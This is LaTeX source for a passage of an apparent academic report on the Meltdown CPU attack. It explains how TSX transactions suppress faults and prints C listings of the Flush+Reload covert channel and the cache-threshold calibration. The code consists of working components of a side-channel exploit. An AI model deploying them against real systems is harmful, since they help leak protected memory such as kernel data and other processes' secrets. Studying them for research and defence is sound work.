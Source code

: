 \documentclass[a4paper,oneside,openright] {scrreprt}
\begin{document}
With the call of \texttt{xbegin} a transaction is started, i.e. a set of instructions.
\texttt{\_XBEGIN\_STARTED} indicates that the transaction started successfully.
Line 2 contains the actual Meltdown exploit which is highlighted in chapter ~\ref{ch:TransientInstructionSequence}.
The \texttt{xend} call commits the current transaction so that the attack gets executed by the processor.
When a segmentation fault is thrown by the CPU the transaction is just rolled back and does not terminate the attacker's process,
hence raised errors are suppressed.

\subsection{Building a Covert Channel}
\label{ch:intro:motivation:A}

Listing ~\ref{lst:flushAndReload} contains the Flush+Reload implementation of Meltdown. 
The reload instruction of the pointer \texttt{ptr} in line 5 is wrapped 
by time measurements utilizing the intrinsic instruction \texttt{\_rdtsc} for reading the time-stamp counter of the CPU ~\cite{intelintrinsics}. 
Depending on the measured time the value is assumed to be cached if it is smaller
than the \texttt{cache\_miss\_threshold} value which has to be calculated in advance.
In line 8 \texttt{ptr} is flushed with an underlying intrinsic instruction called \texttt{\_mm\_clflush } ~\cite{intelintrinsics}
so that it no longer resides in the cache.

\begin{lstlisting}[language=C, caption=Meltdown: Flush+Reload, label={lst:flushAndReload}]
static int __attribute__((always_inline)) flush_reload(void *ptr) {
    uint64_t start = 0, end = 0;
  
    start = rdtsc();
    maccess(ptr);
    end = rdtsc();
  
    flush(ptr);
  
    if (end - start < config.cache_miss_threshold) {
      return 1;
    }
    return 0;
}
\end{lstlisting}

Listing ~\ref{lst:computeThreshold} illustrates how the cache-threshold can be determined.
The implementation applies one million iterations to compute a precise threshold value.
Therefore a pointer \texttt{ptr} is accessed in line 6 so that it's referenced data gets cached. 

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 1, label={lst:computeThreshold}]
size_t reload_time = 0, flush_reload_time = 0, i, count = 1000000;
size_t dummy[16];
size_t *ptr = dummy + 8;
uint64_t start = 0, end = 0;
  
maccess(ptr);
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  reload_time += (end - start);
}
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  flush(ptr);
  flush_reload_time += (end - start);
}
reload_time /= count;
flush_reload_time /= count;
\end{lstlisting}
\end{document}
